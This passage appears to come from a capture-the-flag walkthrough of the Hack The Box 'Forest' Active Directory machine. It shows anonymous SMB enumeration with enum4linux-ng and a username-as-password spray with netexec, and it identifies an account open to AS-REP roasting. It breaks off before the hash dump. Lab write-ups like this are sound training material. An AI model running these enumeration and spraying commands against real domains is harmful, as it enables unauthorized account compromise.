 ```bash
[*] Random Username .. 'crkfgxdq'                                                                                                                                                                                                                                             
[*] Password ......... ''                                                                                                                                                                                                                                                     
[*] Timeout .......... 5 second(s)      
...................................
DNS domain: htb.local                                                                                     
FQDN: FOREST.htb.local    

```

<img width="1677" height="1509" alt="2025-08-06 135359" src="https://github.com/user-attachments/assets/6eccbcb8-7feb-4e8f-8a34-5749089b4629" />


I cleaned the output to get just usernames:

```bash─$ enum4linux-ng 10.129.162.127 | grep "username" | grep -v "SM\|Health"| cut -d ":" -f 2
[+] Server allows session using username '', password ''
 sebastien
 lucinda
 svc-alfresco
 andy
 mark
 santi
 Administrator
 Guest
 krbtgt
 DefaultAccount
```

## Foothold

Since we don`t have anymore information, let’s test if any users have the same password as their username:
```bash
└─$ nxc smb 10.129.162.127 -u users -p users --continue-on-success -k
SMB         10.129.162.127  445    FOREST           [*] Windows 10 / Server 2016 Build 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True) 
SMB         10.129.162.127  445    FOREST           [-] htb.local\sebastien:sebastien KDC_ERR_PREAUTH_FAILED 
SMB         10.129.162.127  445    FOREST           [-] htb.local\lucinda:sebastien KDC_ERR_PREAUTH_FAILED 
SMB         10.129.162.127  445    FOREST           [+] htb.local\svc-alfresco account vulnerable to asreproast attack

```
netexec tells us that svc-alfresco is vulnerable to asreproast attack.
> AS-REP Roasting targets **Kerberos user accounts** that **do not require pre-authentication**.

I perfom the attack and dump the hash using impacket-getNPUsers:
